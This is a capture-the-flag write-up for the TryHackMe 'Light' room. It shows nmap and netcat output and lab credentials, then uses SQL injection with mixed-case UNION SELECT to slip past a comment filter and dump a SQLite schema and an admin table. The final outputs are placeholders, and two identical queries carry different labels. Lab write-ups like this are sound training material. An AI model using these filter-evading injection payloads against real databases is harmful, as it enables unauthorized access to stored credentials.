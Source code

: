 # TRYHACKME : Light

*I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using nc <TARGET-IP> 1337
You can use the username smokey in order to get started.*

## NMAP
```
$ nmap -sV -T4 -p- -v 10.10.241.223 
...
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
1337/tcp open  waste?
...
```

## NETCAT
```
$ nc 10.10.241.223 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: john
Password: e74tqwRh2oApPo6
Please enter your username: administrator
Username not found.
Please enter your username: admin
Username not found.
Please enter your username: blake
Username not found.
Please enter your username: joe
Username not found.
Please enter your username: alice
Password: tF8tj2o94WE4LKC
Please enter your username: 
```
It contains stored password to stored usernames. We need to find the admin's account.

## SSH
```
$ ssh smokey@10.10.241.223 
The authenticity of host '10.10.241.223 (10.10.241.223)' can't be established.
ED25519 key fingerprint is SHA256:BD7uZfA2E7FwfzJpcn+1aMFE4APLItRTSrsiUHImRz4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.241.223' (ED25519) to the list of known hosts.
smokey@10.10.241.223's password: 
Permission denied, please try again.
```
The credentials for Smokey doesnt work in the ssh.

## NETCAT
Back to netcat. We'll try some SQL injection to the database:
```
$ nc 10.10.241.223 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: ' OR 1=1 --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
Please enter your username: smokey' OR password LIKE 's%     
Password: vYQ5ngPpw8AdUmL
Please enter your username: ' UniOn SeLeCt sqlite_version() '
Password: 3.31.1
Please enter your username: ' UNioN SeLeCT sql FROM sqlite_master '
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
Please enter your username: ' UniOn SeLeCt group_concat(sql) FROM sqlite_master '
]Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER),CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
Please enter your username: ' UNioN SeLeCT username FROM admintable WHERE id=1 OR '
Password: // RETRIEVE USERNAME
Please enter your username: ' UNioN SeLeCT password FROM admintable WHERE id=1 OR '
Password: // RETRIEVE PASSWORD
Please enter your username: ' UNioN SeLeCT password FROM admintable WHERE id=1 OR '
Password: // RETRIEVE FLAG

```
